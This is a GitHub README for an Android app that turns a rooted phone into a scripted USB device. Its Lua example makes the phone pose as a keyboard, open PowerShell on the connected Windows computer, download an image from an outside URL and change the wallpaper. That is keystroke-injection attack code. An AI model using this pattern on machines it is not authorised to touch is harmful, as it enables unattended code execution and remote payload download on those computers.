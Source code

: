 # Android USB Script

**Use at your own risk. For educational purposes only.**

An Android app that provides a simple Lua interface for enumerating and interfacing
with arbitrary composite USB devices.

**Root access is required.**

## [Demonstration](https://streamable.com/oeyrik)

The best way to explain what this app does is with a code example. The following script
does the following when interpreted by this app:

1. Configures your phone to become a USB keyboard
2. Sends a series of key presses to the computer your phone is plugged in to, changing
its wallpaper

```lua
-- create a USB composite device composed of a single keyboard
usb = luausb.create({ id = 0, type = "keyboard" })
kb = usb.dev[1]

local file = "https://i.redd.it/ur1mqcbpxou51.png"

while true do
    -- wait for the phone to be plugged into a computer
    while not kb.test() do usb.delay(1000) end

    usb.delay(1000)

    kb.press_keys(kb.LSUPER, kb.R)  -- open the Windows run dialog
    usb.delay(2000)                 -- wait 2 seconds
    kb.send_string("powershell\n")  -- pop open a powershell window
    usb.delay(2000)

    -- enter a script that changes your wallpaper
    kb.send_string("[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;" ..
            "(new-object System.Net.WebClient).DownloadFile('" .. file .. "',\"$Env:Temp\\b.jpg\");\n" ..
            "Add-Type @\"\n" ..
            "using System;using System.Runtime.InteropServices;using Microsoft.Win32;namespa" ..
            "ce W{public class S{ [DllImport(\"user32.dll\")]static extern int SystemParamet" ..
            "ersInfo(int a,int b,string c,int d);public static void SW(string a){SystemParam" ..
            "etersInfo(20,0,a,3);RegistryKey c=Registry.CurrentUser.OpenSubKey(\"Control Pan" ..
            "el\\\\Desktop\",true);c.SetValue(@\"WallpaperStyle\", \"2\");c.SetValue(@\"Tile" ..
            "Wallpaper\", \"0\");c.Close();}}}\n" ..
            "\"@\n" ..
            "[W.S]::SW(\"$Env:Temp\\b.jpg\")\n" ..
            "exit\n")

    -- wait for the phone to be unplugged
    while kb.test() do usb.delay(1000) end
end
```

Several other sample scripts are
[included in the repository](https://github.com/Netdex/android-usb-script/tree/master/app/src/main/assets/scripts).

## Requirements
**This app will not work on every Android device.** If your Android OS has Linux Kernel
version >= 3.18 and is compiled with configfs and f_hid, then the app can try to create usb
gadgets.

New demo applications can be added to `assets/scripts`. The API is pretty much self-documenting,
just look at the existing demos to get a feel for how the API works.

## Third-party
- [libsuperuser](https://github.com/Chainfire/libsuperuser)
- [LuaJ](http://www.luaj.org/luaj/3.0/README.html)
